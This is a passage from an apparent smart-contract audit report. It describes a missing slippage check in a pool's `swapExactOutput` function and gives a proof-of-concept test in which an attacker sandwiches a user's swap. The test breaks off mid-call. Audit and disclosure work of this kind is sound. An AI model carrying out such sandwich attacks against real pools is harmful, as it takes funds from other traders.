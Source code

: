 ```javascript
            inputReserves,
            outputReserves
        );

        _swap(inputToken, inputAmount, outputToken, outputAmount);
    }
```

**Impact:**
The absence of a check for `maxInputAmount` in the `swapExactOutput` method makes it vulnerable to Miner Extractable Value (MEV) attacks. An MEV bot could sandwich any transaction made by this function to gain incentives at the expense of the user. This vulnerability allows attackers to manipulate the price seen by the victim's transaction, forcing them to pay more than they initially intended.

**Proof of Concept:**
A simple test demonstrates the possibility of sandwich attacks due to the lack of slippage control:

```javascript
function testSwapExactOutputSandwichAttack() public {
        attacker = makeAddr("attacker");
        poolToken.mint(attacker, 100e18);
        vm.startPrank(attacker);
        poolToken.approve(address(pool), 100e18);
        weth.approve(address(pool), 24962443665498247371);
        // poolToken.mint(user, 10e18);
        //liquidity deposit:
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 200e18);
        poolToken.approve(address(pool), 200e18);
        pool.deposit(50e18, 50e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        //user wants to swap
        vm.prank(user);
        poolToken.approve(address(pool), 10e18);
        // currently there is 100e18 WETH and 50e18 PT in pool
        // we want to swap x poolToken for 1e18 WETH
        // x considering fees would be = 2_046_957_198_124_987_206
        uint256 expected = 2_046_957_198_124_987_206;
        //here an attacker swaps poolToken for weth by frontrunning user,
        vm.prank(attacker);
        pool.swapExactInput(
            poolToken,
            100e18,
            weth,
            0,
            uint64(block.timestamp)
        );

        vm.prank(user);
        uint256 actual = pool.swapExactOutput(
            poolToken,
            weth,
            1e18,
            uint64(block.timestamp)
        );
        //here the attacker swaps weth for PT,
        vm.startPrank(attacker);
        pool.swapExactInput(
            weth,
            weth.balanceOf(attacker),
            poolToken,
            0,
            uint64(block.timestamp)
```